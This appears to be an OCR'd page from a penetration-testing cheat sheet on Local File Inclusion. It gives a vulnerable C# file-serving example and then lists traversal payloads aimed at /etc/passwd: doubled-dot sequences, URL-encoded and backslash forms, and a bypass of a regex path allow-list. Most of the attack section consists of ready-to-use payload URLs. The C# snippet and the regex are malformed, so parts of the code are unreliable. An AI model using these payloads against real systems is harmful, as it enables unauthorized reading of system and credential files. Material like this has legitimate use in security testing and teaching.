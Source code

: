 #### .NET (C#)

In .NET applications, the `Response.WriteFile` function is commonly used to serve files dynamically. If the file path is derived from user input, it can lead to vulnerabilities. Below is an example in C# demonstrating this issue:

```csharp
@if (!string.IsNullOrEmpty(HttpContext.Request.Query['language'])) {
    <% Response.WriteFile("<% HttpContext.Request.Query['language'] %>"); %>
}

```

Here, if `language` is not properly validated, an attacker could control which file content gets written to the response. This could potentially expose sensitive data or allow for the execution of malicious code.

Exploit & Advanced Bypass Techniques for Local File Inclusion (LFI)

#### Non-Recursive Path Traversal Filters

if code have str\_replace('../', '', $\_GET\['language']);

```php

using ....//
<http://127.0.0.1/index.php?language=....//....//....//....//etc/passwd>

Or using ...././

<http://127.0.0.1/index.php?language=...././...././...././...././etc/passwd>

using Encodeing
<http://127.0.0.1/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64>
or usnig
....\\/....\\/....\\/etc/passwd 
<http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd>

```

#### Approved Paths

```php
if(preg_match('/^\\\\\\\\.\\\\\\\\/languages\\\\\\\\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

Bypass

```php
<http://127.0.0.1/index.php?language=./languages/../../../../etc/passwd>

```

